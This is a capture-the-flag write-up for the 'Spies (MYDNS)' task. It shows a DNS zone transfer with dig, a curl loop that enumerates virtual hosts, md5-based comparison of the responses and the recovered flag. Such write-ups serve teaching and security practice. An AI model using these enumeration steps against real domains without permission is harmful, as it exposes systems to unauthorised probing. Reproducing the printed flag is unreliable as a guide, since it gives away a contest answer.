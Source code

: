 ## Spies (MYDNS)

> Watch out from those prying eyes! It seems someone is opening everything to the world, find that webcam and you will see for yourself!
> 
> https://mydns.webcam/

### Solution

When we accessed the URL we were presented with "*My .webcam DNS*" web panel that allegedly was supposed to let users create their own subdomains for mydns.webcam domain.

![alt text](images/panel.png "My .webcam DNS panel")

What surprised us most is that it really worked! Participants could create their own subdomains leading to whatever IP that were later really visible in the DNS system.

However since this wasn't web task and panel had captchas we didn't even bother checking it more.

We decided to find authoritative nameservers for mydns.webcam and check it for zone transfer. It worked!

```bash
$ dig +trace +short NS mydns.webcam
...
NS ns1.ctf.site. from server 34.198.251.163 in 141 ms.
NS ns2.ctf.site. from server 34.198.251.163 in 141 ms.

$ dig @ns1.ctf.site. axfr mydns.webcam

; <<>> DiG Ubuntu <<>> @ns1.ctf.site. axfr mydns.webcam
; (1 server found)
;; global options: +cmd
mydns.webcam.       300 IN  SOA mydns.webcam. root.mydns.webcam. 1709161543 300 86400 2419200 604800
mydns.webcam.       300 IN  NS  ns1.ctf.site.
mydns.webcam.       300 IN  NS  ns2.ctf.site.
mydns.webcam.       300 IN  A   34.231.38.24
mydns.webcam.       300 IN  TXT "v=spf1 a -all"
mydns.webcam.       300 IN  TXT "1.Th3_k1ng_0f_DNS_"
_dmarc.mydns.webcam.    300 IN  TXT "v=DMARC1; p=reject; sp=reject; pct=100; aspf=s"
_35283._tcp.mydns.webcam. 300   IN  TLSA    3 1 1 117322A858CDB345000332E616E645F4372797074305F000D11AC030 CE94E163
abandoned.mydns.webcam. 300 IN  A   34.231.38.24
abc.mydns.webcam.   300 IN  A   34.231.38.24
aberdeen.mydns.webcam.  300 IN  A   34.231.38.24
absence.mydns.webcam.   300 IN  A   34.231.38.24
accepts.mydns.webcam.   300 IN  A   34.231.38.24
accessible.mydns.webcam. 300    IN  A   34.231.38.24
achievement.mydns.webcam. 300   IN  A   34.231.38.24
adequate.mydns.webcam.  300 IN  A   34.231.38.24
admin.mydns.webcam. 300 IN  A   34.231.38.24
admission.mydns.webcam. 300 IN  A   34.231.38.24
admzone.mydns.webcam.   300 IN  A   34.231.38.24
advantage.mydns.webcam. 300 IN  A   34.231.38.24
affect.mydns.webcam.    300 IN  A   34.231.38.24
...
```

Some problem was that this zone also contained records added by participants.

We decided to filter all A records pointing to 34.231.38.24 (most frequent IP and also IP of mydns.webcam) and query this IP with each subdomain (as a vhost).

```bash
$ cat subdomains.txt | while read subdom; do curl -k -H "Host: ${subdom}" https://34.231.38.24/ > output/${subdom.html}; done
```

As a result we received only three different versions of output pages:

```bash
$ md5sum output/* | cut -d' ' -f 1 | sort | uniq -c 
    502 15b3fa750b955cd925ef24d77f221cbb
      2 1b9a0fce5de18a960c53685ba0bb9d14
     30 a4cafe6ba279fb374e68aa88a9258a2c

$ md5sum output/* | grep 1b9a0fce5de18a960c53685ba0bb9d14
1b9a0fce5de18a960c53685ba0bb9d14  output/greenhouse.mydns.webcam.html
1b9a0fce5de18a960c53685ba0bb9d14  output/supercam.mydns.webcam.html
```

Next we visited https://greenhouse.mydns.webcam/ and got nice webcam panel with the flag playing at the source 3 video:

![alt text](images/webcam.png "Flag")

Flag: **EKO{spies_everywhere}**
